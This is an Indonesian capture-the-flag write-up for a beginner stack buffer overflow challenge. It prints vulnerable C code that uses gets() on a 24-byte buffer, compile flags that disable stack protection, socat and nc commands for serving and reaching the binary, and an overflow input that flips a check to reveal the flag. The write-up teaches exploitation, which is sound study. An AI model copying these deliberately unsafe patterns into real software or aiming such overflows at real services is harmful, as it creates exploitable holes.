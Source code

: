 Kasih mimin Buff dong biar bisa bantu kalian :(

```bash
nc 103.157.96.13 3521
```

Source Remote Aplikasi

```c
#include <iostream>
#include <cstring>
int main() {
    int target;
    char buff[24];

    printf("Welcome to CTFR\n");
    printf("Welcome to Bufferoverflow, your buffer size is a way to decode flag inside this app!\n");
    printf("Please Input :");

    target = 0;
    gets(buff);
    if (target != 0) {
        printf("Here is your flag : CTFR{REDACTED}\n");
    } else {
        printf("You are still not buffering this!\n", buff);
    }
    return 0;
}
```

```bash
gcc -m32 -fno-stack-protector -z execstack -o src src.c -g
```
#### Jalankan Binary Di Remote

```bash
sudo socat tcp-listen:5555,reuseaddr,fork, exec:"./src"
```

#### Run / Connect  Binary

```bash
$ ./src #atau nc 127.0.0.1 5555
Welcome to CTFR
Welcome to Bufferoverflow, your buffer size is a way to decode flag inside this app!
Please Input :AAAA
You are still not buffering this!
```

Dari Potongan Code juga sudah terlihat ada bug di `gets(buff);` dengan jumlah buffer `char buff[24];`  bisa dicoba langsung dengan hasil compile di local atau menggunakan [pwntool](https://github.com/Gallopsled/pwntools) biar lebih mudah

untuk lebih yakin, cari dulu buffer offset yang bisa dipake sampe `target = 0;` bisa ke replace dengan buffer yang dikirimkan, atau kalo engga input aja string yang melebihi nilai buffernya

```bash
Welcome to CTFR
Welcome to Bufferoverflow, your buffer size is a way to decode flag inside this app!
Please Input :'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdA'
Here is your flag : CTFR{REDACTED}
```
